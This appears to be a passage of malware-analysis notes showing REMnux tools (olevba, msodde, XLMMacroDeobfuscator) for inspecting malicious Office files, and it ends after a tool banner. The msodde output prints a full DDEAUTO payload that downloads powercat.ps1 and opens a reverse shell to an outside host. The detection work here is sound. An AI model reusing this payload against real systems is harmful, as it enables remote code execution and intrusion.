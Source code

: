 ```
<---snip--->
Line #20:
FuncDefn (Sub Maceo8())
```

# DDE attack
Use **msodde** to detect and extract DDE/DDEAUTO links from MS Office documents, RTF and CSV

```
remnux@remnux:~/Desktop$ msodde DDE-attack.docx 
msodde 0.55 - http://decalage.info/python/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Opening file: DDE-attack.docx
DDE Links:
 DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.5.128/powercat.ps1');powercat -c 192.168.5.128 -p 1111 -e cmd
```

# Excel 4.0 macros
**XLMMacroDeobfuscator** can be used to extract or decode obfuscated XLM macros (also known as Excel 4.0 macros)

Extract: `xlmdeobfuscator -f Book1.xlsm -x`

Extract, emulate and deobfuscate: `xlmdeobfuscator -f Book1.xlsm`

```
remnux@remnux:~/Desktop$ xlmdeobfuscator -f excel4macro.xls 
pywin32 is not installed (only is required if you want to use MS Excel)

|\     /|( \      (       )
( \   / )| (      | () () |
 \ (_) / | |      | || || |
  ) _ (  | |      | |(_)| |
 / ( ) \ | |      | |   | |
( /   \ )| (____/\| )   ( |
|/     \|(_______/|/     \|
   ______   _______  _______  ______   _______           _______  _______  _______ _________ _______  _______
  (  __  \ (  ____ \(  ___  )(  ___ \ (  ____ \|\     /|(  ____ \(  ____ \(  ___  )\__   __/(  ___  )(  ____ )
  | (  \  )| (    \/| (   ) || (   ) )| (    \/| )   ( || (    \/| (    \/| (   ) |   ) (   | (   ) || (    )|
  | |   ) || (__    | |   | || (__/ / | (__    | |   | || (_____ | |      | (___) |   | |   | |   | || (____)|
  | |   | ||  __)   | |   | ||  __ (  |  __)   | |   | |(_____  )| |      |  ___  |   | |   | |   | ||     __)
  | |   ) || (      | |   | || (  \ \ | (      | |   | |      ) || |      | (   ) |   | |   | |   | || (\ (
  | (__/  )| (____/\| (___) || )___) )| )      | (___) |/\____) || (____/\| )   ( |   | |   | (___) || ) \ \__
  (______/ (_______/(_______)|/ \___/ |/       (_______)\_______)(_______/|/     \|   )_(   (_______)|/   \__/


XLMMacroDeobfuscator(v 0.1.4) - https://github.com/DissectMalware/XLMMacroDeobfuscator

File: /home/remnux/Desktop/excel4macro.xls

Unencrypted xls file

```